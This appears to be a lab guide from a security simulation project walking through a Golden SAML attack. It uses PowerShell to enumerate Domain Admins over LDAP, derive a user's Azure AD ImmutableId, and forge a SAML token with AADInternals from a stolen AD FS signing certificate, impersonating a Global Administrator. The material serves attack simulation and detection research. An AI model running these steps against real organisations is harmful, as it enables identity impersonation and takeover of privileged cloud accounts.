

# Forge SAML Tokens with Stolen Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Main Steps
1.	Enumerate privileged accounts.
2.	Forge SAML tokens.

## Enumerate Privileged Accounts
Let’s start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named pgustavo was also the account that was assigned the Azure AD built-in Global Administrator role. Therefore, we can start by enumerating the members of the `Domain Admins` group.
There are several ways and protocols to accomplish this. However, for the purpose of this basic step, we are going to use LDAP search queries.

### Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account or local admin
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

**Enumerate Members of the Domain Admins Group**
Start PowerShell as administrator and run the following commands.

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter=" (&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers=$ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```


## Forge SAML Token
Once again, a threat actor would most likely do this outside of the compromised organization. 
In the previous steps from the [Local Export AD FS Token Signing Certificate](localExportADFSTokenSigningCertificate.md) document, the certificate was exported to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx`.
 

## Convert User AD Object GUID to its Azure AD Immutable ID representation
Once we identify the privileged user we want to impersonate, we need to obtain the immutable id of the account AD object GUID. The ImmutableId is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = “07cd318c-b6ba-432e-9936-b992d7c78388”
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```


We are now ready to forge a SAML token for the privileged user.

## Sign a New SAML Token via AADInternals
If you have not installed AADInternals yet, open PowerShell as administrator and run the following:

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.7 -Force
Import-Module –Name AADInternals
```



Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need to pass the “ImmutableID”, the path to the token signing certificate and the issuer as parameters.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken=New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```


You can use the new SAML token to request access to other resources such as the Microsoft Graph API.
